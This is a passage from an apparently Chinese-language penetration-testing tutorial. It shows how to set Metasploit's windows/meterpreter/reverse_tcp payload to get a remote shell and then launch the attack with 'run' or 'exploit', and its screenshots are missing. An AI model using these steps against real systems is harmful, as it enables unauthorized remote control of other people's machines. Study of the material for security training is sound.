 一般来说常见的就是反转TCP获得shell权限

这里payload这样设置，当然也可以查看payload目录，看其他的能不能用

```
set payload windows/meterpreter/reverse_tcp
```

设置完后应该是这样的👇

![](./images/image-12.png)

然后我们输入 run 或者 exploit 进行攻击

如果出现下面这样，那就说明攻击成功了

![](./images/image-13.png)

